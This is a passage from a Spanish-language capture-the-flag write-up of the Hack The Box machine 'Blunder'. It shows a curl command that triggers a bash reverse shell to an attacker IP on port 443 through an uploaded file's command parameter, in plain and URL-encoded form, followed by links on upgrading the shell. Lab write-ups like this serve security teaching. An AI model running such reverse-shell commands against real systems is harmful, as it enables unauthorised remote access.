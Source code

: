 Listo, ahora podemos intentar subir una reverse shell... 

Habia probado encodear la URL pero solo lo hice con algunos caracteres, ya que al ejecutar el comando en limpio no pasaba nada, pero despues probé encodear toda la URL y así si me funciono :) 

De esto:

```bash
$ curl http://10.10.10.191/bl-content/tmp/buenobueno.jpg?xmd=bash -c 'bash -i >& /dev/tcp/10.10.15.26/443 0>&1'
```

A esto:

```bash
$ curl http://10.10.10.191/bl-content/tmp/buenobueno.jpg?xmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.15.26%2F443%200%3E%261%27
```

![revshellwww](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/blunder/revshellwww.png)

Perfe, el problema es que con la shell que tengo estoy limitado ya que no puedo volver a algun comando que haya escrito, asi que la transformaré para que sea completamente interactiva.

* [Convertir a una shell completamente interactiva](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
* [Varias opciones](https://netsec.ws/?p=337).
* [Resumido y facil (Gracias s4vitar)](https://www.youtube.com/watch?v=amKkzk-yP14&t=953).

Ahora si, a seguir enumerando :)

